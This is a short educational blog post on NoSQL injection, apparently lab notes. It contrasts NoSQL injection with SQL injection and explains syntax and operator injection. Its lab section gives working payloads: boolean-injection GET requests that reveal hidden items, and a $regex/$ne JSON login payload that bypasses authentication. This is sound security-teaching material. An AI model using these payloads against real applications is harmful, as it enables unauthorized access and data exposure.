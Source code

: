 ```yaml
---
layout: post
title: NoSQLi
subtitle: Insert NoSQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

NoSQL injection is similar to SQL injection in that it allows an attacker to manipulate or inject malicious input into a NoSQL query to retrieve, modify, or delete data. However, the key difference lies in the database type and query language.  
* SQLi
  * SQL database (E.g., MariaDB, MySQL, PostgreSQL)
  * Structure Query Language

  
* NoSQLi
  * Semi-structured database (E.g., MongoDB, CouchDB)
  * JSON-like documents or key-value pairs

### Types of NoSQLi
1. Syntax injection: Attacker injects an unclosed string literal (`'`), to break the query’s logic.
2. Operator injection: Attacker injects NoSQL operator (`$gt`, `$lt`, `$eq`, `$ne`, `$regex`, etc.) into the query, changing the query’s logic to return unintended results or bypass authentication.

### Lab
1. Detect NoSQLi, and retrieve hidden data.  
 a. Using a single quote (') to break the query and trigger a server error.  
 b. insert boolean/truthy expression payloads to manipulate the server response and reveal hidden items.  
  ~~~
  GET /filter?category=Pets '||'1'=='1
  GET /filter?category=Pets '||1|| '
  ~~~
2. NoSQL operator injection to bypass authentication  
 a. $regex operator to look for any username contain adm  
 b. $ne operator to bypass password requirement.  
  ~~~
  {"username":{"$regex":"adm.*"},"password":{"$ne":""}} 
  ~~~
